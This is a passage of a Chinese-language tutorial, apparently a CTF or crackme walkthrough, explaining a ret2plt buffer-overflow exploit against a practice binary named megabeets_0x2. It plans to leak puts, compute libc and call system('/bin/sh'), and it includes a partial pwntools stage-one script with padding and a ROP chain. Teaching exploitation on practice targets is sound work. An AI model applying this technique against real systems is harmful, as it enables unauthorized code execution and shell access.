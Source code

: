 - `ii` 显示所有imports
- `iiq` 进现实imports 不显示详细细节


我们看到puts和scanf，这两个函数可以帮助我们构建exploit。我们的exp将利用我们可以控制程序执行流的事实，还记得`ret`尝试跳转到`0x41417641`么？

我们将尝试执行一个system("/bin/sh") 弹出一个shell。

### 计划
- leak puts的物理地址
- 计算libc的基地址
- 计算system的地址
- 找到libc中包含string /bing/sh 的地址
- 使用/bin/sh调用system

### leaking puts的地址

为了查找利用 puts的地址，我们使用一种叫做ret2plt的技术。 Procedure Linkage Table 是一种内存结构，包含了一个存放链接时不能确定物理地址的函数的代码存根（stub）。我们在 .text 段找到的 CALL 指令，不是直接调用函数，而是在PLT中找这个函数的存根，即所谓 func_name@plt。

这个stub被调用后会跳转到全局偏移表（GOT）中函数所列的地址。假如是第一次调用这个函数，那么 GOT entry 将指回到 PLT，按顺序将调用一个动态链接，这个链接会解析所希望调用的函数的真实地址。接下来 func_name@plt 被调用，stub 直接获取GOT中的该函数地址。


为了实现上面的分析，我们将查找PLT中和GOT中的puts地址，然后以 `puts@got` 为参数调用 `puts@plt` 。我们将链式调用和发送他们到程序中scanf的地方（希望接受用户输入的地方）。然后我们将返回entrypoint 作第二阶段的exploit。值得注意的是，puts将打印它自己的物理地址！！！

为了写exploit ，我们下载pwnlib框架，这是个非常好的渗透工具。简化了很大工作。

安装 `pip3 install pwntools`

下面是我们第一阶段的python骨架：

```python
from pwn import *

# Addresses
puts_plt =
puts_got =
entry_point =

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140 # padding
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
  

```